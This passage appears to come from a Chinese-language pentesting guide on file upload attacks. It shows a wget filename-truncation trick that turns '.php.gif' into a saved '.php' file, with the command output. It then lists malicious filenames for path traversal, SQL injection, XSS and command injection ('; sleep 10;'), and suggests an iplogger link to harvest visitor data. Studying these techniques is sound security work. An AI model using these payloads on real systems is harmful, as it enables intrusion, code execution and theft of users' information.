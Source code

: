 ```shell

#Download the file
wget 127.0.0.1:9080/$(python -c 'print("A"*(236-4)+".php"+".gif")')
The name is too long, 240 chars total.
Trying to shorten...
New name is AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php.
--2020-06-13 03:14:06--  http://127.0.0.1:9080/AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php.gif
Connecting to 127.0.0.1:9080... connected.
HTTP request sent, awaiting response... 200 OK
Length: 10 [image/gif]
Saving to: ‘AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php’

AAAAAAAAAAAAAAAAAAAAAAAAAAAAA 100%[===============================================>]      10  --.-KB/s    in 0s      

2020-06-13 03:14:06 (1.96 MB/s) - ‘AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php’ saved [10/10]
```

注意，你可能会考虑别的绕过检查的方法，使HTTP server 重定向到一个不同的文件，所以初始url需要检查，然后wget将使用新的名字下载重定向文件。

除非wget使用了--trust-server-name，否则这个不会起作用，因为wget将根据原始url中所指定的文件名来下载重定向页面。
## 从文件上传到别的漏洞


- 设置文件名为`../../../tmp/lol.png`，尝试文件路径遍历；
- 设置文件名为 `sleep(10)-- -.jpg`，可以尝试sql注入；
- 设置文件名为 `<svg onload=alert(document.cookie)>` ，可以试出xss漏洞

- 设置文件名为`; sleep 10;` 还可以使出别的[命令注入漏洞](https://book.hacktricks.xyz/pentesting-web/command-injection)

- [XSS在 image或svg 文件上传](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting#xss-uploading-files-svg)
- JS 文件上传+XSS = [Service Workers 渗透](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting#xss-abusing-service-workers)
- [svg 上传XXE](https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity#svg-file-upload)
- [Open Redirect via uploading svg file](https://book.hacktricks.xyz/pentesting-web/open-redirect#open-redirect-uploading-svg-files)
- [著名的 ImageTrick 漏洞](https://mukarramkhalid.com/imagemagick-imagetragick-exploit/)
- 如果你能令某个webserver通过某个url获取一张图片，你可以尝试[SSRF](https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery)。如果这张image将被存放在某个公开站点，你还可以从  https://iplogger.org/invisible/ 网站给出一个url，并且窃取每个visitor的信息。
- [XXE and CORS 绕过 PDF-Adobe 上传](https://book.hacktricks.xyz/pentesting-web/file-upload/pdf-upload-xxe-and-cors-bypass)
- 特别地，可以改造PDFs为XSS：[The following page present how to inject PDF data to obtain JS execution](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting/pdf-injection). If you can upload PDFs you could prepare some PDF that will execute arbitrary JS following the given indications.
